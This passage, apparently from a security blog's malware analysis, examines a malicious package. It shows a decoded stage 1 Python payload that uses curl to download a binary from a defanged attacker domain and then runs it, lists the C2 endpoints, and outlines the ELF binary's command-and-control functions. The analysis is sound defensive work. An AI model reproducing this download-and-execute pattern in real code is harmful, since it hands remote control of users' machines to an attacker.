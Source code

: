 ![Hex-encoded stage 1 payload](/images/elf64-blog/fig-1-hex-string.png)

_Hex-encoded stage 1 payload_

```python
platform = sys.platform[0:1]
print(sys.argv[0])
if platform != "w":
    try:
        url = 'hxxps://arcashop.org/boards.php?type=' + platform
        local_filename = os.environ['HOME'] + '/oshelper'
        os.system("curl --silent " + url + " --cookie 'oshelper_session=10237477354732022837433' --output " + local_filename)
        sleep(3)

        os.system("chmod +x " + local_filename)
        os.system(local_filename + " > /dev/null 2>&1 &")
    except ZeroDivisionError as error:
        sleep(0)
    finally:
        sleep(0)
```

_Stage 1 payload after decoding_

The payload is downloaded from the `pypi[.]online` or `arcashop[.]org` domain. `cURL` is invoked with `os.system` with
the `oshelper_session` cookie set to `10237477354732022837433`. Interestingly, the malware seems to only target Linux
systems. If the platform is set to Windows, it will not execute.

The two endpoints are both in a similar format, with the differences being the domain name and PHP file name. In both
examples, the URL ends with the parameter `type`, which should always be `l` for the Linux platform.

- `hxxps://pypi[.]online/cloud.php?type=`
- `hxxps://arcashop[.]org/boards.php?type=`

These endpoints were resistant to many of our attempts to download the payload, even when accessing from mobile,
residential, cloud, and business/education IP addresses. We're still unsure how we got a payload to fall out, as it
seemed to happen by chance.

### Binary analysis

The payload itself is an ELF binary targeting the x86_64 CPU architecture. The binary appears to have statically linked
`libcurl`, but isn't stripped, so we can still view the function names!

- **XEncoding**: An XOR encryption and decryption function with a custom key.
- **AcceptRequest**: Retrieves commands from the C2, decrypts them and performs actions.
- **FConnectProxy**: Resolves user parameters for `SendPost` function and time seeds random sources.
- **SendPost**: Primary function to send and receive data.
